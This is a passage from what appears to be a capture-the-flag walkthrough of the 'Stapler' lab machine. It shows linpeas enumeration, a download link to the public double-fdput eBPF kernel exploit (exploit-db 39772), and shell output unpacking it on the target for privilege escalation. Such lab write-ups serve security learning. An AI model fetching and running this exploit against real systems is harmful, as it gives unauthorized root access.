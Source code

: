 Running linpeas on the box reveals that the box is running Linux version 4.4.0-21-generic and there is a 95% chance of a PE vector.

<img src="/assets/resources/stapler/linpeas.png">

uname -a would have revelead the information that linepas ouputted as well.

Now that we know our target is an older version of linux we can begin privilege escalation.

## Privilege Escalation via double-fdput()
---

A kernel exploit will be used to elevate privileges on the box stapler.

Please find the exploit code via: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip


After downloading the exploit onto the box we will unzip it since its a .zip file.

```
SHayslett@red:/tmp$ unzip 39772.zip 
Archive:  39772.zip
   creating: 39772/
  inflating: 39772/.DS_Store         
   creating: __MACOSX/
   creating: __MACOSX/39772/
  inflating: __MACOSX/39772/._.DS_Store  
  inflating: 39772/crasher.tar       
  inflating: __MACOSX/39772/._crasher.tar  
  inflating: 39772/exploit.tar       
  inflating: __MACOSX/39772/._exploit.tar 
```

Next we will CD into the 39772 directory and untar both tar files.

```
SHayslett@red:/tmp$ cd 39772

SHayslett@red:/tmp/39772$ ls
crasher.tar  exploit.tar

SHayslett@red:/tmp/39772$ tar -xvf crasher.tar 
ebpf_mapfd_doubleput_crasher/
ebpf_mapfd_doubleput_crasher/compile.sh
ebpf_mapfd_doubleput_crasher/doubleput.c

SHayslett@red:/tmp/39772$ tar -xvf exploit.tar 
ebpf_mapfd_doubleput_exploit/
ebpf_mapfd_doubleput_exploit/hello.c
ebpf_mapfd_doubleput_exploit/suidhelper.c
ebpf_mapfd_doubleput_exploit/compile.sh
ebpf_mapfd_doubleput_exploit/doubleput.c
```
